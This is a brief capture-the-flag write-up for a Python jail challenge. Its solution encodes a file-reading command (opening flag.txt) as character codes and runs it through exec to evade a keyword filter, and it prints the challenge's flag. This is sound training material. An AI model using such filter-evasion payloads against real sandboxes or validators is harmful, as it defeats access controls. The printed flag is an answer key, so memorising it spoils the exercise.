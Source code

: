 # Cojailde

## Description
Try reading the file if you can AHAHAHAHAHAH

## Solution
By writing the string in the form of numbers you avoid censorship, so just rearrange it and execute it:

```python
solve = 'exec( "".join([ chr(i) for i in [112, 114, 105, 110, 116, 40, 111, 112, 101, 110, 40, 39, 102, 108, 97, 103, 46, 116, 120, 116, 39, 44, 39, 114, 39, 41, 46, 114, 101, 97, 100, 40, 41, 41] ]) )'

```

## Flag
`CodeVinciCTF{4_v3r1 34s1_t0_r34d_f1l3_r1gh7?}`

## Author
`sDibuon`
[@b3nj4m1no]